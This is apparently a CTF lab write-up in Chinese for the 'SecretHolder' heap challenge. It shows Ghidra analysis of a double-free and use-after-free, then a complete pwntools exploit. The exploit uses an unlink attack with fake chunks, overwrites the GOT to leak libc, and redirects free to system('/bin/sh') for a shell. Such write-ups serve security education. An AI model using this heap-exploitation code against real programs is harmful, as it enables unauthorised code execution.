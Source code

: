 # SecretHolder

*[執行程式]*

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_topic.jpg)

[解題]

首先可以透過執行程式看到其提供以下幾種功能:
* keep secret:有三種不同大小的空間，並依對應的大小輸入秘密到該空間。
* wipe secret:可以自行選擇要free掉哪種大小的空間。
* renew secret:重新創建某個大小的空間。

接下來可以用 ghidra 進行分析，其中看到比較有東西的程式畫面如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_code.jpg)

在 keep secret 的函數中使用 calloc() 為三種 secret 分配不同大小的 chunk (small chunk、big chunk、huge chunk)，在分配前會檢查相對應的 secret 是否已經存在，因為每種 chunk 只能有一個。而在 wipe secret 函數在釋放 secret 時，首先將對應的 chunk 釋放掉，然後設置 flag 為 0。最後，renew secret 函數會先判斷對應的 flag 是否為 1，表示 secret 是否已經存在，如果不存在則讀入 secret，否則函數直接返回。

透過程式碼解析可以發現有以下漏洞:
* double-free:在 free chunk 的位置 calloc 另一個 chunk，表示可以重複 free 這個 chunk。
* use-after-free:因為 double-free 的的情況發生，所以 calloc 出來的那個 chunk 會被認為是 free 的，但它實際上卻可以使用。

因此，本題可以利用 unsorted bin 的 unlink 來攻擊。

我們先建一個 big chunk，然後在 free 這個 big chunk，接著再建一個 small chunk 和一個 medium chunk。三個 chunk 的狀態會呈現如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_pic1.jpg)

接下來把 small chunk 和 medium chunk 都 free 掉，因為在分配 huge chunk 的時候，glibc 會調用函數 malloc_consolidate() 來清除 fastbin 中的 chunk，所以 medium chunk 會被放到了 small chunk 的位置，當再次分配 small chunk 時會造成堆塊重疊。因此，我们要對 medium 做 double free，我們要在 Small 的位置偽造假 chunk，也要重新建好 medium 的結構，還有在 medium 後面再偽造幾個假 chunk，繞過檢查。則現在的狀態如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_pic2.jpg)

再次 free 那個 medium，medium 就會與 Fake_chunk1 發生 unlink，這樣就能自由控制堆塊，把 free 的 got 表修改成 puts 的 plt 地址，當 free 時就能洩漏出訊息。

根據以上的敘述，exploit code 呈現如下:

#### exploit.py
```
from pwn import *
from LibcSearcher import *

sh = process('./SecretHolder')
elf = ELF('./SecretHolder')

# The address of huge_secret
huge_secret = 0x6020A8
bss_addr = 0x602090
free_got = elf.got['free']
puts_plt = elf.plt['puts']
read_got = elf.got['read']

def new(h_type, content):
   sh.sendlineafter('3. Renew secret', '1')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendlineafter('Tell me your secret:', content)

def delete(h_type):
   sh.sendlineafter('3. Renew secret', '2')
   sh.sendlineafter('3. Huge secret', str(h_type))

def edit(h_type, content):
   sh.sendlineafter('3. Renew secret', '3')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendafter('Tell me your secret:', content)

# apply one big chunk
new(3,'a'*0x100)
delete(3)

# apply one small chunk
new(1,'b'*0x10)

#apply one medium chunk
new(2,'c'*0x100)

# free chunk0 and chunk1
delete(1)
delete(2)

# create fake chunk
fake_chunk = p64(0) + p64(0x21)
#fd,bk
fake_chunk += p64(huge_secret-0x18) + p64(huge_secret-0x10)
payload = fake_chunk.ljust(0x20,'\x00')
#prev_size size
payload += p64(0x20) + p64(0x90) + 'c'*0x80   #chunk2
#prev_size size
payload += p64(0x90) + p64(0x81) + 'd'*0x70   #chunk3
#prev_size size
payload += p64(0) + p64(0x81)   #chunk4
# reapply big chunk
new(3, payload)

# unlink this 3 big bin
delete(2)
# Now, we can control this three heap pointer, modify them first
payload += p64(0) * 2 + p64(free_got) + p64(bss_addr) + p64(read_got) +p32(1)*3
edit(3,payload)

# modify free's got to put's plt
edit(2,p64(puts_plt))
#leakage the address of read
delete(1)
sh.recvuntil('\n')
read_addr = u64(sh.recvuntil('\n',drop = True).ljust(8,'\x00'))
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print ('libc_base=',hex(read_addr))
print ('system_addr=',hex(system_addr))
#modify table got of free and point to system
edit(2,p64(system_addr))
#modify heap1 pointer and point to str(/bin/sh)
edit(3,p64(0) * 2 + p64(binsh_addr))
#system("/bin/sh")
delete(2)

sh.interactive()
```

